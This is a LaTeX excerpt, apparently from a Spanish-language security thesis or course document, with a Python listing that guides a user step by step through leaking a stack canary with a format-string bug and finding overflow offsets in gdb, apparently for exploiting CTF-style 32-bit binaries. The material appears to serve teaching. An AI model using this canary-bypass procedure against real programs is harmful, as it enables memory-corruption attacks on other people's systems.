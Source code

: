 \subsubsection{Plantilla canario real}
\begin{lstlisting}[language=Python, caption=Plantilla canario real]
print("El binario tiene un canario real, sigue los siguientes pasos!")
leak_fn = input("Cual es la función que tiene el leak?? ")
print("Primero vas a sacar el offset en el buffer overflow hasta el canario, necesitas establecer un breakpoint antes de terminar la función, usa: 'b strcat'")
print("Ahora necesitas inyectar el código cíclico antes generado para poder calcular offsets")
print("En cuanto llegue al breakpoint, vas a revisar el valor del canario, este se úbica en la dirección $ebp - 0xc, usa el siguiente comando: 'x/x $ebp - 0xc'")
canary_offset = int(input("Cual es el valor que tiene esa dirección? "), 16)
solver.find_canary_offset(canary_offset)
if not solver.makes_sense():
    print("Hay algo mal, repite la ejecución y asegurate que los valores están bien, el offset al canario no puede ser mayor o igual al del EIP")
    exit(1)
print("Ahora necesitas sacar el offset del format string del canario, vas a parar antes de la llamada a la función de fgets")
print("Para ello escribe el siguiente comando")
print(f"Escribe este comando: disassemble {leak_fn}")
print("Busca el offset de la función fgets, por ejemplo, input_0 +54")
offset_bp = input("Cual es el offset de fgets? ")
print(f"Muy bien, entonces vamos a parar la ejecución justo antes de que llegue con el comando: b *{leak_fn} + {offset_bp}")
print("Continuamos la ejecución ejecutando: continue")
print("Debemos ver que ha parado justo antes de la llamada, ahora necesitamos recuperar dos valores, EBP y ESP")
print("Para ello usa el comando 'p $esp' para saber el valor del ESP y 'p $ebp' para el del EBP")
ebp = int(input("Cual es el valor del EBP? "), 16)
esp = int(input("Cual es el valor del ESP? "), 16)
print("Con esos valores y mediante el cálculo de (EBP - ESP - 0xc) // 4 podremos saber el offset del format string")
canary_fmtstr = solver.get_canary_fmtstr(ebp, esp)
print(f"El valor que leakea el canario es: {canary_fmtstr}")
print("Pruebalo a ver que sucede al introducir ese valor, debería devolver un resultado acabado en 00, presiona 'continue'")
canario = int(input("Cual ha sido el valor devuelto? En caso de que acabe en 00 ya tienes bajo control el canario! "), 16)
solver.set_canary(canario)
\end{lstlisting}
